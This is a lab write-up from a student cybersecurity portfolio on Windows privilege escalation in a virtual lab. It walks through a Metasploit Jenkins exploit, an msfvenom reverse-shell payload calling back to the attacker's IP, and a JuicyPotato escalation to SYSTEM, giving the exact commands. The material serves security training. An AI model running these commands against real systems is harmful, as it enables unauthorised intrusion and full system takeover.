 # Windows Privilege Escalation

## Objective: 
Windows Privilege Escalation, leveraging tools and techniques to gain unauthorized access to system-level resources on a Windows Server machine within a controlled environment. The lab commences with gaining a limited shell via exploiting Jenkins on port 8484, followed by escalating privileges using Juicy Potato. This project provides hands-on experience in exploiting service vulnerabilities, working with Meterpreter shell, and privilege escalation techniques. The ultimate objective is to attain an NT AUTHORITY\SYSTEM level access, thereby demonstrating the vulnerabilities and the importance of securing Windows systems.

## Walkthrough:

### Part 1

- I initiated a Nmap scan within a specified IP range using the command **nmap 10.0.2.0/25**. Given that my host IP is 10.0.2.6, I deduced that the Windows VM IP is 10.0.2.8 with multiple open ports.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp1.png" alt="">
</p>

- I noticed that port 8484 wasn’t displayed as open, prompting me to check using the command **"nmap -p 8484 -sV 10.0.2.8"**. I found it open and identified the running service to be **Jetty winstone-2.8**, an HTTP service.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP2.png" alt="">
</p>

- With this information, I accessed Jenkins by entering the IP address and port number **10.0.2.8:8484** in Firefox.

  <p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp3.png" alt="">
</p>

- I then switched to the terminal and entered **MSFconsole** to search for Jenkins exploits. Following the instructions, I selected **exploit number 6**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP4.png" alt="">
</p>

- Setting options for this exploit, I configured the username and password to **vagrant**, defined the rhost as 10.0.2.8 (target IP), set the target URI based on the Firefox URL **http://10.0.2.8:8484/**, defined the srvhost as my host IP (10.0.2.6), and assigned the rport as 8484. Executing the **run** command opened the meterpreter session 1 as NT Authority\local service.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP5.1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP5.2.png" alt="">
</p>

- I verified if the SeImpersonatePrivilege was enabled, and it was.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP6.png" alt="">
</p>

- Next, I uploaded **JuicyPotato** to the target machine using the meterpreter command **upload /home/kali/Downloads/JuicyPotato.exe**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP7.1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP7.2.png" alt="">
</p>

- A quick **ls** command confirmed its presence on the machine with **rwx** permissions across all user groups.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp8.png" alt="">
</p>

### Part 2

- The task began with the creation of a 64-bit Windows meterpreter using MSFvenom. In the Kali terminal, the command **“msfvenom -l payloads | grep windows”** was issued to display a list of Windows payloads. I opted for **“windows/x64/meterpreter/reverse_tcp”**.
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp9.png" alt="">
</p>
  
- To construct the payload, the command **“msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.6 LPORT=4445 -f exe > windyprivesc.exe”** was executed.
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp10.png" alt="">
</p>
  
- The subsequent step was to transfer the crafted file to the target machine. Within the meterpreter environment, this was achieved using the **“upload windyprivesc.exe”** command.
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp11.png" alt="">
</p>
  
- To proceed, the generic multi-handler exploit was required. After launching MSFconsole, I searched for multi handlers. I chose option 5, recognized as a generic payload handler, and configured the payload, LHOST, and LPORT accordingly.
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp12.png" alt="">
</p>
  
- The core task was to run the exploit within the directory containing both JuicyPotato and the windyprivesc.exe file on the target VM. This operation was performed inside a shell in meterpreter, using the command **“C:\Program Files\jenkins\Scripts>.\JuicyPotato.exe -t * -p windyprivesc.exe -l 4445”**.
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp13.png" alt="">
</p>
  
- Once redirected to the multi handler and upon gaining access to the shell, the command **“whoami /priv”** was run. The resultant display showed all enabled privileges. To conclude the assignment, I echoed my name into the terminal for verification purposes.
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp14.png" alt="">
</p>

